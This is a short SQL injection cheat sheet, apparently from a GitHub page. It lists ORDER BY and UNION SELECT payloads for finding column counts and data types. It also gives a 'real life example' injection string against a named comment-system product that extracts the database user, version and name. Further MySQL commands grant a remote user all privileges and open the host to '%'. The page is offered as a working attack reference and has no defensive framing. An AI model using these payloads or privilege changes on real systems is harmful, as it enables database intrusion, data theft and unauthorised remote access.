 # sql injection

    # getting started
    mysql -v -u root -h localhost -P 3306 -p"Password!" -D dbname -e "show tables;"
    mysql -v -u root -h localhost -P 3306 -p"Password!" -e "use dbname; show tables;"

    # finding the DBMS
    MS-SQL: user_name()
    MySQL: user ()
    ORACLE: select user from dual;

    # finding the number of columns in the table.
    ' ORDER BY 3--     ok
    ' ORDER BY 4--     ok
    ' ORDER BY 5--     output of range

    # union attack to find the number of required elements
    ' UNION SELECT NULL,NULL--                      # no response
    ' UNION SELECT NULL,NULL,NULL,NULL--            # ok => means we need four
    ' UNION SELECT NULL,NULL,NULL,NULL,NYLL--       # no response

    # finding columns with a useful data type
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'-- 

    # real life example - advanced_comment_system
    'UNION SELECT NULL,page,user (),page from advanced_comment_system-- SkrU&del=2

    ' union select user(),2,@@version,database() --

## ERROR 1130 (HY000): Host 'X.X.X.X' is not allowed to connect to this MySQL server

    select Host,User,Password,Insert_priv,ssl_cipher from mysql.user;
    
    use mysql;CREATE USER '<user>'@'<ip>' IDENTIFIED BY 'toto666';"
    use mysql;GRANT ALL PRIVILEGES ON *.* TO '<user>'@'<ip>';
    FLUSH PRIVILEGES;

    UPDATE mysql.user SET Host='%' WHERE Host='localhost' AND User='username';
    UPDATE mysql.db SET Host='%' WHERE Host='localhost' AND User='username';
    FLUSH PRIVILEGES;
